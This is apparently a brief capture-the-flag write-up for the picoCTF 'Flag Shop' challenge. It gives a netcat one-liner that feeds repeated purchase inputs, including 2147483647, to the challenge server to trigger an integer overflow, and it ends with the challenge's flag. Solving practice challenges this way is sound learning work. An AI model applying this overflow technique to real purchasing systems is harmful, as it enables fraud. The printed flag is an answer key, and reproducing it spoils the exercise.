 # [Flag Shop](`https://play.picoctf.org/practice/challenge/49?category=5&page=2`)

## Status: In Progress

```

nc jupiter.challenges.picoctf.org 9745 < <(for i in {1..110} ; do echo -n "2\n1\n2147483647\n" ; done ; echo "2\n2\n1\n3")

```

Answer: `picoCTF{m0n3y_bag5_65d67a74}`.